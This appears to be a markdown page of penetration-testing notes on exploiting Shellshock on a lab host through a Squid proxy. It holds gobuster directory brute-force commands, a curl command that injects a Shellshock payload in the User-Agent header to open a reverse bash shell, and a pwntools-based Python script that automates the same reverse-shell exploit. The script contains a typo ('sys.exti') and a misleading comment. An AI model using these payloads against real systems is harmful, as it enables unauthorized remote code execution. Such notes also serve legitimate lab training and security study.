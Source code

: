 # Shell Shock
- Do a *brute force* reconnaissance with **gobuster** to possibly find out the **cgi-bin** directory.
	```shell
	gobuster dir -u http://192.168.200.134/ --proxy http://192.168.200.134:3128 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
	 gobuster dir -u http://192.168.200.134/cgi-bin/ --proxy http://192.168.200.134:3128 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x ph,sh,cgi 
	```
- Reference to [Shell-Shock](https://blog.cloudflare.com/inside-shellshock/).
- You should probe.
	```shell
	curl -s http://127.0.0.1/cgi-bin/status --proxy http://192.168.200.134:3128 -H "User-Agent: () { :; }; echo; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.200.128/4646 0>&1'"
	```
- Use this automate **Python** script.
	```python
	#!/usr/bin/python3
	
	import sys
	import signal
	import requests
	from pwn import *
	import threading
	
	# function to manage CTRL+c
	def def_handler(sig, frame):
	    print("\n[!] Exiting...\n")
	    sys.exti(1)
	
	# function to find out every port behind a Proxy
	def shellShock():
	    headers = {"User-Agent": "() { :; }; /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.200.128/4646 0>&1'"}
	    r = requests.get(main_url, proxies=squid_proxy, headers=headers)
	
	# CTRL+c
	signal.signal(signal.SIGINT, def_handler)
	
	# global variables
	main_url = "http://127.0.0.1/cgi-bin/status"
	squid_proxy = {"http": "http://192.168.200.134:3128"}
	d_port = 4646
	
	if __name__ == "__main__":
	    try:
	        threading.Thread(target=shellShock, args=()).start()
	    except Exception as e:
	        log.error(str(e))
	
	    shell = listen(d_port, timeout=20).wait_for_connection()
	    if shell.sock is None:
	        log.failure("Connection failure")
	        sys.exit(1)
	    else:
	        shell.interactive()
	```